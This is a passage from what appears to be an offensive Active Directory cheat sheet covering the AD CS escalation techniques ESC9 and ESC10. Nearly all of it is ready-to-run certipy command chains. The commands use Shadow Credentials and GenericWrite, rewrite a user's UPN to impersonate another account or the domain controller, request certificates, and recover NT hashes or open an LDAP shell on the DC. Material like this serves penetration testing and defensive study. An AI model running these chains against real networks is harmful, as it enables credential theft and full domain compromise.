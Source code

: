Now, authentication with the obtained certificate will be performed through Schannel. It can be used to perform, for example, an RBCD.

##### Linux

###### ESC9

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**. **user2** is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

```bash
#Retrieve user2 creds via Shadow Credentials
certipy shadow auto -username 'user1@contoso.local' -p 'password' -account user2
#Change user2 UPN to user3
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user3@contoso.local
#Request vulnerable certif with user2
certipy req -username 'user2@contoso.local' -hash 'hash_value' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template'
#user2 UPN change back
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user2@contoso.local
#Authenticate with the certif and obtain user3 hash during UnPac the hash
certipy auth -pfx 'user3.pfx' -domain 'contoso.local'
```

###### ESC10 - Case 1

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**.

```bash
#Retrieve user2 creds via Shadow Credentials
certipy shadow auto -username 'user1@contoso.local' -p 'password' -account user2
#Change user2 UPN to user3
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user3@contoso.local
#Request authentication certif with user2
certipy req -username 'user2@contoso.local' -hash 'hash_value' -ca 'ca_name' -template 'User'
#user2 UPN change back
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user2@contoso.local
#Authenticate with the certif and obtain user3 hash during UnPac the hash
certipy auth -pfx 'user3.pfx' -domain 'contoso.local'
```

###### ESC10 - Case 2

Here, **user1** has `GenericWrite` against **user2** and want to compromise the domain controller **DC$@contoso.local**.

```bash
#Retrieve user2 creds via Shadow Credentials
certipy shadow auto -username 'user1@contoso.local' -p 'password' -account user2
#Change user2 UPN to DC$@contoso.local
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn 'DC$@contoso.local'
#Request authentication certif with user2
certipy req -username 'user2@contoso.local' -hash 'hash_value' -ca 'ca_name' -template 'User'
#user2 UPN change back
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user2@contoso.local
#Authenticate through Schannel to realise a RBCD in a LDAP shell
certipy auth -pfx dc.pfx -dc-ip 'DC_IP' -ldap-shell
```
